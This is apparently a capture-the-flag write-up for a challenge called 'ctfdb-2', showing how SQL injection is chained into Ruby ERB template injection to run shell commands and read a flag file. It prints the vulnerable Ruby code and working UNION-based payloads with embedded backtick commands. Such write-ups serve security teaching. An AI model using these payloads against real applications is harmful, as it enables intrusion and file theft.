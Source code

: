 # ctfdb-2

## Write-up

- The description is mentioning templates, and ERB is the template engine used in this challenge

- There's an odd function that's using a literal string as a template :

```ruby
def render_country(country)
  ERB.new("<span class=\"flag-icon flag-icon-#{country}\"></span>").result(binding)
end

# ...

# used here
  rows = client.query sql_query
  teams = rows.map do |row|
    name = row["name"]
    country = render_country row["country"]
    {:name => name, :country => country}
  end
```

- If we have control over the country returned by the SQL query result, we can inject malicious template markers like ``<%= `ls` %>`` to get code execution

- We can take advantage of the SQL injection in the first part of the challenge to control the returned country :

```sql
SELECT name, country FROM teams WHERE name LIKE '' UNION SELECT 1, '<%= `ls` %>';-- %' ORDER BY name ASC LIMIT 50
```

- Our query should then look like : ``' UNION SELECT 1, '<%= `ls` %>';--``

- After sending that query, we inspect the HTML to find the files returned by `ls` command :

```txt
Gemfile
Gemfile.lock
app.rb
flag.txt
views
```

- Let's read the flag now : ``' UNION SELECT 1, '<%= `cat flag.txt` %>';--``

- We can read the flag after inspecting the HTML again : `shellmates{S$t1_IS_sO_C00l_On_RUBy!}`

## Flag

`shellmates{S$t1_IS_sO_C00l_On_RUBy!}`
